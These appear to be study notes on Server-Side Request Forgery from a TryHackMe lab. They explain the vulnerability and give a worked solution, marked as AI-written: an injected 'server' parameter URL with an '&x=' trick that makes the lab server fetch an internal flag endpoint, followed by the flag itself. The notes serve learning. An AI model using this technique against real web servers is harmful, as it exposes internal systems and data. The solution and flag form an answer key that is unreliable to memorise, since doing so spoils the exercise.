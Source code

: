 [[Bug]]

## **What is an SSRF?**

SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## **Types of SSRF**

There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

## **What's the impact?**

A successful SSRF attack can result in any of the following: 

- Access to unauthorised areas.
- Access to customer/organisational data.
- Ability to Scale to internal networks.
- Reveal authentication tokens/credentials.



(task 2 from AI)

### Task: Exploiting SSRF to get the flag

In the mock browser provided by the room, the application sends a request to the URL in the `server` parameter. The bottom bar shows exactly which request is being sent by `website.thm`.

Given:

```
https://website.thm/item/2?server=api
```

The application requests:

```
https://api.website.thm/api/item?id=2
```

---

### Goal

Force the web server to fetch:

```
https://server.website.thm/flag?id=9
```

so that it returns the flag.

---

### Problem

If you simply replace `server` with `https://server.website.thm/flag?id=9`, the resulting URL in the server request becomes malformed. It appends the rest of the path/query from the original request to your injected URL, creating something like:

```
https://server.website.thm/flag?id=9.website.thm/api/item?id=2
```

which causes a `404` error.

---

### Solution: Using `&x=` Trick

To stop the application from appending its default `/api/item?id=2`, you can terminate the query string by adding `&x=` to the end of your payload.

**Correct URL:**

```
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```

Now, the request sent by `website.thm` is clean:

```
https://server.website.thm/flag?id=9
```

and you will receive the flag response:

```
THM{SSRF_MASTER}
```

---

### Final Answer

- Injected URL:
    

```
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```

- Flag:
    

```
THM{SSRF_MASTER}
```

---

### Why This Works

- The application appends additional path/query to whatever you supply in `server`. Adding `&x=` breaks that process by finishing the query string, so the rest of the URL is ignored.
    
- Encoding tricks (like `%3F` and `%3D`) are often insufficient in this lab; the `&x=` method is the cleanest and most reliable path to isolate the request.
    

---

### Key Takeaways

- In real SSRF scenarios, query breaking via `&` is a classic technique.
    
- Always watch how the server _actually_ constructs the outbound request — especially with any debugging bar like the one given in this room.
    
- Control the full path/query string to direct requests precisely where you want.
    

---

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:
================================================

**When a full URL is used in a parameter in the address bar:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/956e1914b116cbc9e564e3bb3d9ab50a.png)  

**A hidden field in a form:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/237696fc8e405d25d4fc7bbcc67919f0.png)  

**A partial URL such as just the hostname:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f3c387849e91a4f15a7b59ff7324be75.png)

  

**Or perhaps only the path of the URL:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3fd583950617f7a3713a107fcb4cfa49.png)

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working payload.

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.


## reports

iif there's parameter like `url=` or anything like it , you can try this 
